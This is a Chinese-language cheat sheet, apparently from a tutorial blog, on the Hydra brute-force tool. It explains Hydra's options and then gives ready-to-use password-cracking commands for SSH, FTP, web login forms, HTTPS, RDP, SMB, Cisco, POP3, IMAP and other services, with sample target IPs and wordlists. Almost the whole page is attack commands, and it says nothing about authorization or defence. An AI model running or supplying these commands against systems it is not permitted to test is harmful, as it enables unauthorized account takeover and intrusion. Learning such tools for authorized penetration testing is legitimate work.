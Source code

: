 ```
hydra -l admin -P pass.txt smb://192.168.1.100
```

```
-l: 用户名。
-L<FILE>
指定用户名字典

-P: 密码字典。

-t: 代表线程数。过大的线程，极易导致hydra的奔溃。

-vV: 显示详细过程
-e<ns>
可选选项，n：空密码试探，s：使用指定用户和密码试探
```

四、各协议的具体命令：

1、破解ssh：

hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip ssh
hydra -l 用户名 -p 密码字典 -t 线程 -o save.log -vV ip ssh

2、破解ftp：

hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV
hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV

3、get方式提交，破解web登录：

hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip http-get/admin/
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get/admin/index.[PHP](http://lib.csdn.net/base/php)

4、post方式提交，破解web登录：

hydra -l 用户名 -P 密码字典 -s 80 ip  http-post-form"/admin/login.php:username=^USER^&password=^PASS^&submit=login:sorrypassword"


hydra -t 3 -l admin -P pass.txt -o out.txt -f 10.36.16.18  http-post-form"login.php:id=^USER^&passwd=^PASS^:<title>wrong  username orpassword</title>"

（参数说明：-t同时线程数3，-l用户名是admin，字典pass.txt，保存为out.txt，-f 当破解了一个密码就停止， 10.36.16.18目标ip，http-post-form表示破解是采用http的post方式提交的表单密码破解,<title>中的内容是表示错误猜解的返回信息提示。）

5、破解https：

hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https

6、破解teamspeak：

hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak

7、破解cisco：

hydra -P pass.txt 10.36.16.18 cisco
hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable

8、破解smb：

hydra -l [administrator](http://www.ha97.com/tag/administrator) -P pass.txt 10.36.16.18 smb

9、破解pop3：

hydra -l muts -P pass.txt my.pop3.mail pop3

10、破解rdp：

hydra ip rdp -l administrator -P pass.txt -V

11、破解http-proxy：

hydra -l admin -P pass.txt http-proxy://10.36.16.18

12、破解imap：

hydra -L user.txt -p secret 10.36.16.18 imap PLAIN
hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN